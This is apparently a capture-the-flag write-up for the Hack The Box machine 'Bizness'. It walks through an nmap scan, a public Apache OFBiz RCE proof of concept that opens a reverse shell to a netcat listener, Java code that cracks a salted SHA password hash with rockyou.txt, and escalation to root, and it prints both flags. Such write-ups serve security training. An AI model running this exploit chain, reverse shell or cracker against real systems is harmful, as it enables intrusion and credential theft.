 ```yaml
---
layout: post
title: "HTB Linux Easy: Bizness"
description: "Bizness is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p- 10.10.11.252
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-01-06 21:25 CET
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.028s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-title: Did not follow redirect to <https://bizness.htb/>
|_http-server-header: nginx/1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
|_http-title: BizNess Incorporated
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
|_http-server-header: nginx/1.18.0
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
35057/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 51.07 seconds
```

Modify hosts file:
```
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts | grep 10.10.11.252
10.10.11.252 bizness.htb
```


## Enumerate HTTPS (Port 443)
Browsing to the /webtools directory reveals credentials: `admin:ofbiz`
![Pasted image 20240715111438.png](/images/Pasted image 20240715111438.png){: .normal }


Looks like we can’t login.
![Pasted image 20240715111435.png](/images/Pasted image 20240715111435.png){: .normal }


Copyright reveals the exact version of: `OFBiz 18.12`.
![Pasted image 20240715111431.png](/images/Pasted image 20240715111431.png){: .normal }


Found a [PoC python script](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/blob/main/exploit.py).
```
┌──(kali㉿kali)-[/tmp]
└─$ python3 exploit.py <https://bizness.htb> shell 10.10.14.140:9001
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Not Sure Worked or not
```

```
┌──(kali㉿kali)-[/tmp/Ofbiz-Exploit]
└─$ nc -lnvp 9001            
listening on [any] 9001 ...
connect to [10.10.14.140] from (UNKNOWN) [10.10.11.252] 43418
bash: cannot set terminal process group (716): Inappropriate ioctl for device
bash: no job control in this shell
ofbiz@bizness:/opt/ofbiz$ id
uid=1001(ofbiz) gid=1001(ofbiz-operator) groups=1001(ofbiz-operator)
```

For execution of the PoC to work, first download ysoserial from: [link](https://github.com/frohoff/ysoserial). Next, change the Java version to Java 11.
```
sudo update-java-alternatives -s java-1.11.0-openjdk-amd64
```

User flag: `a53d40da028b650f1edbae69116ee996`
```
ofbiz@bizness:~$ cat user.txt
a53d40da028b650f1edbae69116ee996
```


## Privilege Escalation
Found the derby database password hash.
```
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ grep -arin -o -E '(\\w+\\W+){0,5}password(\\W+\\w+){0,5}'
./c54d0.dat:21:Password="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled
```

Analyzing the [source code](https://github.com/apache/ofbiz-framework/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java) we find useful functions.
```java
public static String cryptBytes(String hashType, String salt, byte[] bytes) {
        if (hashType == null) {
            hashType = "SHA";
        }
        if (salt == null) {
            salt = RandomStringUtils.random(SECURE_RANDOM.nextInt(15) + 1, CRYPT_CHAR_SET);
        }
        StringBuilder sb = new StringBuilder();
        sb.append("$").append(hashType).append("$").append(salt).append("$");
        sb.append(getCryptedBytes(hashType, salt, bytes));
        return sb.toString();
    }
```

```java
private static String getCryptedBytes(String hashType, String salt, byte[] bytes) {
        try {
            MessageDigest messagedigest = MessageDigest.getInstance(hashType);
            messagedigest.update(salt.getBytes(StandardCharsets.UTF_8));
            messagedigest.update(bytes);
            return Base64.encodeBase64URLSafeString(messagedigest.digest()).replace('+', '.');
        } catch (NoSuchAlgorithmException e) {
            throw new GeneralRuntimeException("Error while comparing password", e);
        }
    }
```

These functions create the resulting hash that we found. We can deduct that the hash we found is base64 url safe encoded and that a salt was used. We can use these 2 functions and use rockyou.txt to try and crack it by going over each line in rockyou.txt and call the cryptBytes function. Comparing the results to the hash we found in the seg0 folder will allow us to get the plaintext password.
```java
import org.apache.commons.codec.binary.Base64;

import java.io.BufferedReader;
import java.io.File;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.util.stream.Stream;
import java.io.IOException;
import java.io.FileReader;

public class Main {
    public static void main(String[] args) {

        try (BufferedReader reader = new BufferedReader(new FileReader("C:\\\\\\\\Users\\\\\\\\Giiker\\\\\\\\Downloads\\\\\\\\rockyou.txt"))) {
            String line;

            while ((line = reader.readLine()) != null) {
                byte[] bytes = line.getBytes(StandardCharsets.UTF_8);
                String hash = cryptBytes("SHA", "d", bytes);
                System.out.println(hash);
                if (hash.equals("$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I")){
                    System.out.println("[+] Password: " + line);
                    break;
                }
            }
        } catch (IOException ignored) {}
    }

    public static String cryptBytes(String hashType, String salt, byte[] bytes) {
        StringBuilder sb = new StringBuilder();
        sb.append("$").append(hashType).append("$").append(salt).append("$");
        sb.append(getCryptedBytes(hashType, salt, bytes));
        return sb.toString();
    }

    private static String getCryptedBytes(String hashType, String salt, byte[] bytes) {
        try {
            MessageDigest messagedigest = MessageDigest.getInstance("SHA");
            messagedigest.update("d".getBytes(StandardCharsets.UTF_8));
            messagedigest.update(bytes);
            return Base64.encodeBase64URLSafeString(messagedigest.digest()).replace('+', '.');
        } catch (NoSuchAlgorithmException e) {
            throw new RuntimeException("Error while comparing password", e);
        }
    }
}
```
Add files from: [Link](https://commons.apache.org/proper/commons-codec/download_codec.cgi) to the lib folder.


Found root password: `monkeybizness`.
```java
[+] Password: monkeybizness
```

Switch to the root user:
```
ofbiz@bizness:/opt/ofbiz$ su root
Password: monkeybizness
id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag: `f8ab93ea2ca9ec64ad5dd1ce51a7c0e3`
```java
cat root.txt
f8ab93ea2ca9ec64ad5dd1ce51a7c0e3
```

## Pwned!
![Pasted image 20240715111120.png](/images/Pasted image 20240715111120.png){: .normal }

